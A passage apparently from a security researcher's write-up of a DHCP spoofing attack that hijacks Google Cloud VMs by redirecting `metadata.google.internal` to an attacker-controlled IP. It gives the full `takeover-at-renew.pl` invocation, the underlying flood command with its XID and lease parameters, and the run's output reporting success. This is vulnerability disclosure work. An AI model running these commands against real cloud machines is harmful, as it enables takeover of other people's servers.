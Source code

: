 I repeated the attack and flooded the victim with 3 hours of XIDs (~10000). The 51th DHCPREQUEST was hijacked (would 
have taken a little bit more than a complete day with "normal" lease times).
I concluded that the execution time indeed correlates with the number of XIDs. 
This of course would decrease the success rate in real life setups, but the attack is still feasible.


## Attack #3

A prerequisite of this attack is the GCP firewall to be effectively turned off.

I found that my DHCP related packets were not forwarded to the VM while the VM is rebooting (probably not after the 
lease is returned at reboot), effectively ruling out `takeover-at-discover.pl`.

I decided to carry out an attack against the lease renewal (effectively the same as #2). My expectation was that it should
still be feasible.

I tested this scenario using an AWS VM as the attacker machine and a really short time window (2 minutes).
The `meta.py` script was still running on the GCP attacker machine (external ip: 35.209.180.239).
I rebooted the victim machine (internal ip: `10.128.0.4`, external ip: `34.122.27.253`), logged in, ran `journalctl -f|grep dhclient`.

Then on the AWS attacker machine (external ip: `3.136.97.244`), I executed this command:

```
root@ip-172-31-25-197:~/real8# NIC=eth0 ONESHOT_WINDOW_MIN=2 FINAL_IP=10.128.0.4 MY_ROUTER=10.128.0.1 ./takeover-at-renew.pl 34.122.27.253  35.209.180.239
Flooding destination between with XIDs between 1601651865 and 1601651984
RUN: ip addr show dev eth0 | awk '/inet / {print $2}' | cut -d/ -f1
RUN: /root/real8/randr 10.128.0.4 290 315 1601651865 1601651984 2>/dev/null | paste -sd ',' - >/tmp/xids.txt
NIC: eth0
Min pid: 290
Max pid: 315
Min ts: 1601651865
Max ts: 1601651984
Attacker IP: 172.31.25.197
Router: 10.128.0.1
Target IP (initial phase): 34.122.27.253
Target MAC: 42:01:0a:80:00:04
Target IP (final phase): 10.128.0.4
34.122.27.253 is alive
Start flooding the victim for 1801 sec
And monitoring it in the background
Running for 1801 sec in the background: /root/real8/flood -ack -lease 15 -dev eth0 -dstip 34.122.27.253 -newhost metadata.google.internal -newip 35.209.180.239 -srcip 172.31.25.197 -mac 42:01:0a:80:00:04 -xidfile /tmp/xids.txt
MAC: 42:01:0a:80:00:04
Src IP: 172.31.25.197
Dst IP: 34.122.27.253
New IP: 35.209.180.239
New hostname: metadata.google.internal
New route:
ACK: true
Offer: false
Oneshot: false
Number of XIDs: 145
The host is down, it probably swallowed the poison ivy!
And now some flood again to revert connectivity
it seems the attack was successful
```